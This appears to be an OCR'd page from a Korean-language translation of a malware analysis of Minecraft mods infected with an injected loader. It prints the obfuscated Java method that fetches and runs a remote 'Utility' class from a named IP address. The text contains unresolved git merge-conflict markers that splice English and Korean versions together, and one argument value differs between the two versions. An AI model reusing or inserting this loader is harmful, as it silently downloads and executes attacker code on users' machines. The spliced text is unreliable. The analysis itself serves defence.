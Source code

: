 영향을 받는 모드 또는 플러그인은 해당 클래스의 정적 초기화자(static initializer)에 새로운 `static void` 메서드가 삽입되며, 이 메서드를 호출하는 코드가 해당 클래스에 삽입됩니다. DungeonZ의 경우, 해당 메서드는 `net.dungeonz.DungeonzMain`에 `_d1385bd3c36f464882460aa4f0484c53`라는 이름으로 존재합니다. Skyblock Core의 경우, 해당 메서드는 `com.bmc.coremod.BMCSkyblockCore`에 `_f7dba6a3a72049a78a308a774a847180`라는 이름으로 삽입됩니다. HavenElytra의 경우, 해당 코드는 `valorless.havenelytra.HavenElytra`의 사용되지 않는 정적 초기화자(static initializer)에 직접 삽입됩니다.

이 메서드의 코드는 문자열 리터럴 대신 `new String(new byte[]{...})`을 사용하여 난독화되었습니다.

"Infernal Expansion Compat"의 흉내를 내는 "Create Infernal Expansion Plus"의 D3SL 샘플에서는 주된 모드 클래스에 악성 코드가 삽입되었습니다.

```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

<<<<<<< HEAD
해당 코드는 다음과 같은 작업을 수행합니다:
=======
This:
1. Creates a `URLClassLoader` with the URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Loads the class `Utility` from the classloader, fetching code from the internet
3. Calls the `run` method on `Utility`, passing a String argument different for each infected mod (!). E.g.
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`-114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"
>>>>>>> 1f61c29bdc3036bf1973fd8f109fb1652961eb2b

1. `http://[85.217.144.130:8080]/dl` ( [shodan](https://www.shodan.io/host/85.217.144.130) 참조) URL을 사용하여 `URLClassLoader`를 생성합니다.
2. 해당 클래스로부터 `Utility` 클래스를 클래스로더(classloader)로부터 로드하며, 인터넷에서 코드를 가져옵니다.
3. `Utility`의 `run` 메서드를 호출하며, 각각의 감염된 모드마다 다른 문자열 인수를 전달합니다. 예를 들면:
   - Skyblock Core: "`-74.-10.78.-106.12`"
   - Dungeonz: "`114.-18.38.108.-100`"
   - HavenElytra: "`-114.-18.38.108.-100`"
   - Vault Integrations: "`-114.-18.38.108.-100`"
